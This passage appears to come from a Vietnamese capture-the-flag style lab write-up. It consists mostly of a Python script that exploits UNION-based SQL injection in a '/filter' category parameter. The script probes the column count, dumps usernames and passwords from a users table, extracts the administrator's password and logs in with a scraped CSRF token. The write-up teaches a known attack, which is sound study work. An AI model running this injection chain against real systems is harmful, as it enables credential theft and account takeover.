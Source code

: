 ```python
    test_column = "' UNION SELECT " + "NULL," * x + "NULL -- "
    params = {'category' : test_column,}
    response = session.get(url + "/filter",params=params,verify=False,)
    if(response.status_code == 200):
        print("bảng có số cột là: ", (x+1))
        break


payload = "' UNION SELECT NULL, username || ':' || password FROM users--"
params = {
   'category' : payload,
}
response = session.get(
    url + "/filter",
    params=params,
    verify=False,
)

pattern = r"administrator:\w{20}\b"
match = re.search(pattern, response.text)
account = match.group()
username = account.split(':')[0]
password = account.split(':')[1]

response = session.get(
    url + "/login",
    verify=False,
)
soup = BeautifulSoup(response.text,'html.parser')
csrf= soup.find('input', {'name': 'csrf'})['value']
data= {
    'username' : username,
    'password' : password,
    'csrf' : csrf,
}
response = session.post(
    url + "/login",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)

```

![image](https://hackmd.io/_uploads/Hk7MLypc6.png)

mục đích của chúng ta đã hoàn thành và mình đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HyvbUkpcT.png)
